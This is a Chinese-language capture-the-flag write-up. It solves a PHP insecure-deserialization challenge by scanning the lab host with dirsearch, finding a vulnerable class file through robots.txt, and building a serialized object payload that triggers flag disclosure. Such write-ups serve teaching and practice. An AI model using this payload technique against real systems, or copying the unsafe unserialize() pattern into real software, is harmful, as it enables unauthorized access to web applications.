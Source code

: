 ![image-20250403175101029](./assets/image-20250403175101029.png)

![image-20250403175106172](./assets/image-20250403175106172.png)

查看源码

提示查看robots.txt

或者直接扫目录

```
dirsearch -u http://node4.anna.nssctf.cn:28107/
```

![image-20250403175213941](./assets/image-20250403175213941.png)



访问robots.txt

![image-20250403175146883](./assets/image-20250403175146883.png)

存在cl45s.php

访问

```
 <?php

error_reporting(0);
show_source("cl45s.php");

class wllm{

    public $admin;
    public $passwd;

    public function __construct(){
        $this->admin ="user";
        $this->passwd = "123456";
    }

        public function __destruct(){
        if($this->admin === "admin" && $this->passwd === "ctf"){
            include("flag.php");
            echo $flag;
        }else{
            echo $this->admin;
            echo $this->passwd;
            echo "Just a bit more!";
        }
    }
}

$p = $_GET['p'];
unserialize($p);

?> 
```



分析源码

PHP反序列化

当创建对象时自动调用_construct()，给admin和passwd赋值

当对象销毁时自动调用_destruct()，判断admin和passwd的值

如果满足条件则包含flag.php

即使admin为admin

passwd为ctf



生成payload

```
<?php

class wllm
{

    public $admin;
    public $passwd;
}
$a=new wllm();
$a->admin="admin";
$a->passwd="ctf";
echo serialize($a)
?>
```

![image-20250403175902224](./assets/image-20250403175902224.png)

```
?p=O:4:"wllm":2:{s:5:"admin";s:5:"admin";s:6:"passwd";s:3:"ctf";}
```

![image-20250403175927425](./assets/image-20250403175927425.png)